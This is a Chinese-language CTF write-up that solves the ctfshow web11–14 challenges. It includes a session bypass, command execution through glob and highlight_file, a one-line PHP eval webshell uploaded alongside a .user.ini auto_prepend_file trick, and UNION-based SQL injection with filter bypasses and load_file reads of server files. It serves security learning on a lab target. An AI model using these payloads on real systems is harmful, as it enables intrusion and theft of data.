ctfshow web11-14
web11
题目源码
1 |
|
解题
- 利用Session变量存储信息：
$_SESSION[“Session名称”]=变量或字符串信息;
Session采用的是在服务器端保持状态的方案，而Cookie采用的是在客户端保持状态的方案。在PHP配置中的默认情况下，Session是用Session ID来确定当前对话所对应的服务器Session，而Session ID是通过Cookie来传递的，禁用Cookie相当于失去了Session ID，也就得不到Session了。
因此在代码中我们可以看到当$password==$_SESSION[‘password’]成立时，就会输出flag。
- 进行bp抓包，cookie中包含了一个phpsession的值，传进来的参数通过get方式传递，如果我们将密码置换为空，将cookie删掉，那么就能使得条件成立，输出flag。


web12
打开题目，网页源码注释提示说cmd传参，一看到cmd就先用了system进行命令执行，但是都没啥返回结果，后来看了题目的hint提示，glob绕过和highlight看源码。
所以就去百度了一下glob的绕过：
- glob是linux下一种文件匹配模式,Glob 不匹配任何隐藏文件或文件夹。
匹配规则跟通配符比较相像：
| * | 匹配除了斜杠(/)之外的所有字符。 Windows上是斜杠(/)和反斜杠() |
|---|---|
| ** | 匹配零个或多个目录及子目录。不包含 . 以及 .. 开头的。 |
| ? | 匹配任意单个字符。 |
glob() 函数返回一个包含匹配指定模式的文件名或目录的数组。
glob(“*”) 匹配任意文件

glob(“*.txt”)匹配以txt为后缀的文件

因此可以参照上述的用法，读取文件的目录，并使用print_r打印出来：
?cmd=print_r(glob(“*”));

读取到一个文件，根据提示，使用highlight_file()函数对文件内容进行高亮显示：
?cmd=highlight_file(“903c00105c0141fd37ff47697e916e53616e33a72fb3774ab213b3e2a732f56f.php”);

得到flag。
https://www.runoob.com/php/func-filesystem-glob.html
https://blog.csdn.net/miuzzx/article/details/104372662
web13
最简单的一句话木马的工作原理：
首先存在一个名为shell的变量，shell的取值为HTTP的POST方式。Web服务器对shell取值以后，然后通过eval()函数执行shell里面的内容。
- 解题
一开始看到界面就是问价上传，传了图片马回显图片size错误，扫描了一下目录发现存在upload.php.bak
下载得到源码：
1 | header("content-type:text/html;charset=utf-8"); $filename = $_FILES['file']['name']; $temp_name = $_FILES['file']['tmp_name']; $size = $_FILES['file']['size']; $error = $_FILES['file']['error']; $arr = pathinfo($filename); $ext_suffix = $arr['extension']; if ($size > 24){ die("error file zise"); } if (strlen($filename)>9){ die("error file name"); } if(strlen($ext_suffix)>3){ die("error suffix"); } if(preg_match("/php/i",$ext_suffix)){ die("error suffix"); } if(preg_match("/php/i"),$filename)){ die("error file name"); } if (move_uploaded_file($temp_name, './'.$filename)){ echo "文件上传成功！"; }else{ echo "文件上传失败！"; } |
- 代码审计发现：
文件的大小要小于等于24，名字长度小于等于9，后缀长度小于等于3，并且最要命的是后缀和名字都不能包含php。既然要小于等于24，所以可以将一句话木马写成这样：<?php eval($_GET[‘a’]);
- 对于php中的.usr.ini有如下解释：
PHP 会在每个目录下搜寻的文件名；如果设定为空字符串则 PHP 不会搜寻。也就是在.usr.ini中如果设置了文件名，那么同一目录下任意一个页面都会将该文件中的内容包含进去。

涉及到两个配置项：auto_prepend_file、auto_prepend_file

大致意思就是：我们指定一个文件（如a.txt），那么该文件就会被包含。
auto_prepend_file:在页面顶部加载文件
auto_append_file:在页面底部加载文件
- 先上传a.txt ：<?php eval($_GET[‘a’]);
然后上传.user.ini
添加如下payload即可。
但是在这里上传成功访问的时候要多试几次，具体原因我也不知道，但是多上传几次，多访问几次就能有回显结果了。
upload.php/?a=print_r(glob(“*”));

upload.php/?a=highlight_file(“903c00105c0141fd37ff47697e916e53616e33a72fb3774ab213b3e2a732f56f.php”);

题目主要涉及的还是文件上传时.user.ini文件的用法.
https://wp.ctf.show/d/15-ctf-show-web13
https://www.cnblogs.com/awsole/p/14388357.html
web14
- 进入界面得到一段代码，switch…case….判断。
由于存在不认识的函数，所以我一开始是想着去查找函数的用法，并没有去读代码，想的是怎么绕过intval()和sleep()函数，但是后来发现这两个函数并不是关键的点。
- intval() 函数用于获取变量的整数值。
intval函数有两个参数：var和base：
- $var：要转换成 integer 的数量值。
- $base：转化所使用的进制。
如果 base 是 0，通过检测 var 的格式来决定使用的进制：
- 如果字符串包括了 “0x” (或 “0X”) 的前缀，使用 16 进制 (hex)；否则，
- 如果字符串以 “0” 开始，使用 8 进制(octal)；否则，
- 将使用 10 进制 (decimal)。

- 如果传入的参数为1的话输出URL并退出整个判断语句。但是输入1后并没有返回我们需要的东西，继续往下读取，但是由于存在sleep()函数，也不可能传入555555这么大的数进行等待返回，所以往下看到有一个3：

- 当传入3时，输出@A@并一直往下执行到break跳出，打印出了我们一个文件名。

- 尝试访问，进入一个查询界面，返回的是admin，看着像是一个SQL注入，查看网页源代码，发现过滤了information_schema.tables，information_schema.columns，nestring，空格，polygon。关键字。然后抓包尝试一下进行SQL注入。

- 过滤了空格，使用/**/绕过，进行order by字段查询，发现只有一个回显位置。

- 然后使用联合查询进行注入：
注：information_schema.tables使用反引号即information_schema.tables形式进行绕过。
爆数据库名
1 | /here_1s_your_f1ag.php?query=-1/**/union/**/select(select/**/group_concat(table_name)/**/from/**/information_schema.`tables`/**/where/**/table_schema='web') |
爆表名
1 | /here_1s_your_f1ag.php?query=-1/**/union/**/select(select/**/group_concat(column_name)/**/from/**/information_schema.`columns`/**/where/**/table_name='content') |
爆字段内容，发现并没有我们需要的flag。
1 | /here_1s_your_f1ag.php?query=-1/**/union/**/select(select/**/group_concat(username,password)/**/from/**/content) |

- 一开始的代码中有一个文件包含的secret.php，使用MySQL的读取文件函数load_file()进行读取：
1 | /here_1s_your_f1ag.php?query=-1/**/union/**/select/**/load_file('/var/www/html/secret.php') |
返回：
1 |
|
如果/tmp/gtf1y中的内容为ctf.show则输出/real_flag_is_here中的值,我们可以直接使用load_file()函数读取/real_flag_is_here的内容：
- 直接读取得到flag：
1 | /here_1s_your_f1ag.php?query=-1/**/union/**/select/**/load_file('/real_flag_is_here') |
load_file()读取文件；空格的绕过，反引号的使用绕过。